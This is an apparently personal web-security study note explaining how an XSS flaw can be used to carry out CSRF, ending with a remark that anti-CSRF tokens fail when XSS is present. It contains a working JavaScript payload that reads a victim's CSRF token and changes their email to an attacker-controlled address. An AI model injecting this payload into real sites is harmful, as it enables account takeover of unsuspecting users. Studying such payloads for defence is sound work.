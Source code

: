 In worst cases, a XSS vulnerability can be used to perform [Cross-site Request Forgery](obsidian://open?vault=security-notes&file=Offensive%20Security%2FWeb%20Application%20Security%2FClient-side%20Vulnerabilities%2FCross-site%20Request%20Forgery%20(CSRF)%2FIntroduction) attacks, depending on the target website, an attacker might be able to make the victim send a message, accept a friend request, transfer some Bitcoin, or change their email address.

For example, a website allows logged-in users to change their email address without entering their password, and a XSS vulnerability is found on their blog post comments. An attacker can use the following XSS payload to force anyone who visits the page to change their email address to an attacker-controlled email:
```html
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@attacker.com')
};
</script>
```
## Note
When CSRF occurs as a standalone vulnerability, it can be patched using strategies like anti-CSRF tokens. However, these strategies do not provide any protection if an XSS vulnerability is also present.